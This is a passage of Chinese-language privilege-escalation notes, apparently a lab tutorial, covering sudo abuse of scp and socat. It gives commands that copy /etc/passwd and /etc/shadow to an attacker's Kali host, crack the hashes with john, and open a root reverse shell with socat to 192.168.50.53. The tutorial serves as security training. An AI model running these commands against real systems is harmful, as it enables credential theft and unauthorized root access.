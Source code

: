 <a name="c65Xk"></a>
### 4.Scp提权
<a name="XaA0o"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657813367195-d75080e7-59a8-43a6-b00e-8a52379e93e1.png#averageHue=%232d0923&clientId=u650b7d3f-c541-4&from=paste&height=136&id=uda1a13c1&originHeight=136&originWidth=1063&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25486&status=done&style=none&taskId=ubb8d0b5f-e0e5-4bcd-951e-8eaf0486c24&title=&width=1063)
<a name="BhO3i"></a>
#### 2.复制/etc/passwd和/etc/shadow到远端服务器
```bash
sudo scp /etc/passwd kali@192.168.50.53:~/
sudo scp /etc/shadow kali@192.168.50.53:~/
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657814145652-b3e9e1c6-42c4-4ee8-ad40-b4e0fd7cbbfd.png#averageHue=%232d0922&clientId=u650b7d3f-c541-4&from=paste&height=210&id=u9ae54fe3&originHeight=210&originWidth=1592&originalType=binary&ratio=1&rotation=0&showTitle=false&size=63520&status=done&style=none&taskId=ue02c202c-38a2-4a6d-ab7b-0b61e0ffaa2&title=&width=1592)

复制文件如下<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657814176190-fb54a3a3-125c-4a3c-a447-b34c901e4a7d.png#averageHue=%23272b36&clientId=u650b7d3f-c541-4&from=paste&height=60&id=uff82be3a&originHeight=60&originWidth=230&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5779&status=done&style=none&taskId=u67ba3cb3-bc03-4559-9077-f54450bcf15&title=&width=230)

<a name="bCmmr"></a>
#### 3.使用john爆破密码
```bash
unshadow passwd shadow > pass
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657814278310-48ea99b4-669f-45c0-ba9d-092648eee422.png#averageHue=%23262b3a&clientId=u650b7d3f-c541-4&from=paste&height=86&id=ud849361b&originHeight=86&originWidth=427&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13661&status=done&style=none&taskId=ud3e6217f-372e-4cc2-85ea-7212ffeb74c&title=&width=427)
```bash
john pass
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657814412101-952ae768-56c1-4f0c-8f3c-e493243106ba.png#averageHue=%23272c39&clientId=u650b7d3f-c541-4&from=paste&height=435&id=uc25ac62a&originHeight=435&originWidth=820&originalType=binary&ratio=1&rotation=0&showTitle=false&size=102267&status=done&style=none&taskId=u88bfb43e-35fb-495f-88ac-b56e36184f6&title=&width=820)

<a name="brcnC"></a>
### 5.Socat提权
<a name="qwulp"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657814466630-4975d09e-941a-4eb8-8c69-df62d3fe7cf3.png#averageHue=%232d0923&clientId=u650b7d3f-c541-4&from=paste&height=127&id=u8914ed70&originHeight=127&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24471&status=done&style=none&taskId=u4f5df6a6-69d3-4a51-8ee5-bac17b67a94&title=&width=728)

<a name="Qlz4K"></a>
#### 2.在kali中开启监听端口
```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657814516112-24880852-c639-4678-b972-43efd8c8c37f.png#averageHue=%23252834&clientId=u650b7d3f-c541-4&from=paste&height=57&id=u37667a22&originHeight=57&originWidth=538&originalType=binary&ratio=1&rotation=0&showTitle=false&size=7005&status=done&style=none&taskId=u49425ab3-d9f3-4f18-9ac2-5ce16fe6d69&title=&width=538)
<a name="H297d"></a>
#### 3.在客户机上操作
```bash
sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.50.53:1234
sudo socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.50.53:1234
```

